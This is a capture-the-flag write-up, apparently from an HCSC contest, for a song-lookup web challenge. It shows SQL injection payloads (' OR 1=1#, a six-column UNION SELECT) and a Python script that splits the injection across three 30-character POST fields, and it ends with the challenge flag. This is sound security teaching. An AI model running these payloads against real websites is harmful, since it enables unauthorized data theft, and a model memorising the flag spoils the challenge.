



# Checking the site

Visiting the site has the following. A simple song lookup with Beatles songs.




# SQLi

The dropdown menus operate with GET parameters, one index each. The text based search works with POST parameters, 3 inputs.

The SQL query is printed out on requests, e.g. `SELECT * FROM Song Where title like '%%’;`. It is clear even after a single query that the 3 inputs are simply concatenated, 30-30-31 long.

It is a basic SQL injection with limited length. For example `123` reveals nothing, but `123' OR 1=1#` reveals all songs.

The columns of the table can be figured out by incrementing the number of parameters for `UNION SELECT`. It has 6 columns, has no output for anything else: `UNION SELECT 1,2,3,4,5,6#`.

The only problem is the 30 char limit, but it can be bypassed with a small [exploit.py](workdir/exploit.py).

```python
#!/usr/bin/env python3
import requests
import sys
url = 'http://10.10.4.12:881'
query = sys.argv[1]
payload = "?' UNION "+query+" #"
data = {"song": payload[0:30], "song2": payload[30:60], "song3": payload[60:]}
x = requests.post(url, data=data)
sub = x.text
sub = sub[sub.find("SELECT"):]
find = "<tr style=\"color: #8888ff; font-size:20px;\"> <td></td><td>"
lines = sub.split('<tr style=\"color: #8888ff; font-size:20px;\"> <td></td><td>')
for line in lines:
    cols = line.replace("</td><td>", "\t")
    cols = cols.replace("<td>", "")
    cols = cols.replace("</td>", "")
    cols = cols.replace("</tr>", "")
    cols = cols.replace("</table></font>", "")
    print(cols)
```

The only thing to pay attention now is the columns of the output. The database and table structure can be checked out.



There is a `SuperSecretFlag` table, with the flag inside.



# Flag
`HCSC{k0mp0nalt_SQ1_1njekcio_konnyu?}`